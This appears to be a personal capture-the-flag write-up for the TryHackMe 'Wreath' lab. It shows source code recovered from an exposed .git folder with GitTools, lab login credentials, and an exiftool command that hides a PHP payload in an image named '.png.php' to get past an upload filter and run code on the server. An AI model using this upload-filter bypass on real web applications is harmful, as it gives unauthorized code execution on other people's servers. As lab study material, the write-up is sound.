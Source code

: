 From the downloaded Website.git we now will extract the files

now using the tool GitTools we will extract the files from .git we got

`./extractor.sh /home/sp00f/THM/Wreath/10.200.109.150/loot/Website.git/ /home/sp00f/THM/Wreath/10.200.109.150/loot/Website.git/`
![[Screenshot 2021-04-30 at 10.01.22 PM.png]]

we now have 3 commits
![[Screenshot 2021-04-30 at 10.01.48 PM.png]]

to get the commit order
`separator="======================================="; for i in $(ls); do printf "\\n\\n$separator\\n\\033\[4;1m$i\\033\[0m\\n$(cat $i/commit-meta.txt)\\n"; done; printf "\\n\\n$separator\\n\\n\\n"`

![[Screenshot 2021-04-30 at 10.06.33 PM.png]]

On looking, the commit hashes and stuff 
we saw the commit order:
```
2-70dde80cc19ec76704567996738894828f4ee895 -> 1-82dfc97bec0d7582d485d9031c09abcb5c6b18f2 -> 0-345ac8b236064b431fa43f53d91c98c4834ef8f3
```

review the code. and there is /resources page and we can upload image with conditions but we have to login first.

login creds :

`thmomas 02d90eda8f6b6b06c32d5f207831101f 
passwd: i<3ruby`

and we can upload 

![[Screenshot 2021-04-30 at 11.36.08 PM.png]]

updating a static image for poc that we can execute php via images so that AV wont alert the user
`exiftool -Comment="<?php echo \\"<pre>Test Payload</pre>\\"; die(); ?>" sp00f.png.php`

and by selecting all supported types we can upload the file
![[Screenshot 2021-04-30 at 11.54.30 PM.png]]

and here the file. poc ie. We have the ability to execute arbitrary PHP code on the system!
![[Screenshot 2021-04-30 at 11.55.01 PM.png]]